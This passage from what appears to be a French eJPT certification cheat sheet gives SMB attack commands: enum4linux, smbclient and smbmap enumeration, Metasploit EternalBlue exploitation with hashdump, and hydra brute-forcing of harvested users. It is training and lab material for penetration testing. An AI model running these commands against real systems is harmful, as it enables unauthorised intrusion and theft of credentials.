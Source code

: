 ```bash
enum4linux -a $TARGET

echo "[*] smbclient null session test..."
smbclient -L $TARGET -N

echo "[*] smbmap scan..."
smbmap -H $TARGET -u null

echo "[+] SMB enumeration completed"
```

### One-liner SMB discovery
```bash
# Test rapide SMB complet
nmap -p445 --script smb-os-discovery,smb-enum-shares,smb-vuln-ms17-010 target && enum4linux -a target && smbclient -L target -N
```

---

## 🎯 10. Cas d'usage spécifiques eJPT

### Scénario 1: Windows avec EternalBlue
```bash
# 1. Découverte SMB
nmap -p445 -sV target

# 2. Test EternalBlue
nmap --script smb-vuln-ms17-010 target

# 3. Si vulnérable → Exploitation directe
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target
set LHOST attacker_ip
exploit

# 4. Post-exploitation
sysinfo && getuid && hashdump
```

### Scénario 2: Null session avec énumération
```bash
# 1. Test null session
enum4linux -a target

# 2. Si null session OK → Énumération poussée
smbclient -L target -N
smbmap -H target -u null
rpcclient -U "" -N target
# Dans rpcclient: enumdomusers, enumdomgroups

# 3. Brute force avec utilisateurs trouvés
hydra -L found_users.txt -P passwords.txt smb://target
```
